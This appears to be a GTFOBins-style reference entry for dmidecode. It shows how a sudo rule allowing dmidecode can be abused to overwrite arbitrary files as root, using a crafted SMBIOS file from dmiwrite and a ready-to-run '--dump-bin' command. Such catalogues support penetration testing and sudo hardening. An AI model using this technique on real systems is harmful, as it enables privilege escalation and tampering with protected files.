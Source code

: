 functions:
  sudo:
    - description: |
        It can be used to overwrite files using a specially crafted SMBIOS file that can be read as a memory device by dmidecode.
        Generate the file with [dmiwrite](https://github.com/adamreiser/dmiwrite) and upload it to the target.

        - `--dump-bin`, will cause dmidecode to write the payload to the destination specified, prepended with 32 null bytes.

        - `--no-sysfs`, if the target system is using an older version of dmidecode, you may need to omit the option.

        ```
        make dmiwrite
        TF=$(mktemp)
        echo "DATA" > $TF
        ./dmiwrite $TF x.dmi
        ```
      code: |
        LFILE=file_to_write
        sudo dmidecode --no-sysfs -d x.dmi --dump-bin "$LFILE"
---
